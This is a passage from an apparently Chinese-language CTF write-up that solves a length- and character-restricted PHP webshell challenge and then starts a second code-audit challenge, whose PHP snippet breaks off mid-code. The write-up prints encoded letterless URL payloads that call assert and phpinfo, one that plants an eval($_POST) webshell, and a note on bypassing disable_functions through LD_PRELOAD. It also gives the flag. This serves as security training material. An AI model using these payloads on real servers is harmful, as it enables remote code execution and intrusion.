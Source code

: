 ```php
        highlight_file(__FILE__);
}
highlight_file(__FILE);

// ?>
```
限制长度和字符的webshell，网上搜索“无字母webshell”，构造playload如下
```bash
# 预期解（php7.0）
# 测试，返回phpinfo()信息
http://114.116.44.23:40001/?code=(~%8F%97%8F%96%91%99%90)();

# 代码放在在User-Agent中执行
# ("assert")(("next")(("getallheaders")()));
http://114.116.44.23:40001/?code=(~%9E%8C%8C%9A%8D%8B)((~%91%9A%87%8B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));


# 非预期解
# 执行assert("phpinfo()")
http://114.116.44.23:40001/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=phpinfo()

# 直接链接shell
http://114.116.44.23:40001/?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=eval($_POST['t1m']);


注意：从phpinfo的disable_functions可以看出pcntl_exec,system,exec,shell_exec,popen,proc_open,passthru等函数都被禁用了
```
上面两种都可以执行任意php代码了但是不能执行命令，可以使用php代码利用readdir等函数读到系统根目录下有flag和readflag文件，所以还是需要执行命令运行readflag文件，LD_PRELOAD模式绕过。利用fwrite等函数上传so文件和php脚本到/tmp目录下(网站目录没有写权限)，命令执行/readflag文件得到flag

```
Syc{I_think_Th1s_1s_Cha113nge_G4me_for_U_H4v3_f4n!}
```

出题人wp：https://evoa.me/index.php/archives/62/

工具：[LD_PRELOAD](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)

### 7.李三的代码审计笔记第一页
> 出题人：cl0und
> Talk is easy ,show me the code.
> 地址:http://ctf1.redteam.today:8081


看懂代码实现一个简单的服务器
```php
# PHP版
<?php
@session_start();
$key='ttt';
$counter = intval(file_get_contents("counter.dat"));
//创建一个dat数据文件
if(!$_SESSION[$key]) {
	$_SESSION[$key] = true;
	$counter++;
	//刷新一次+1
	$fp = fopen("counter.dat","w");
	//以写入的方式，打开文件，并赋值给变量fp
	fwrite($fp, $counter);
	//将变量fp的值+1
	fclose($fp);
}
$password = "If I knew where I would die, I would never go there.";
$arr = explode(' ', $password);
```